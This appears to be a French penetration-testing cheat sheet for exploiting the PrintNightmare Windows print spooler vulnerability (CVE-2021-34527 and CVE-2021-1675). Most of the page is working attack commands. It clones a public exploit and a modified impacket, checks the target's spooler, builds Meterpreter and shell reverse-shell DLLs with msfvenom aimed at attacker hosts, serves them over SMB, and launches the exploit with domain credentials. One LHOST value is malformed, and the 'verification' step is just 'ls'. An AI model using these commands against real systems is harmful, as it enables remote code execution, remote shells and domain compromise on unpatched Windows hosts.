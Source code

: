 ```yaml
---
public: true
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)


### Vérification 

```shell
ls
```
## Exploitation

### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```
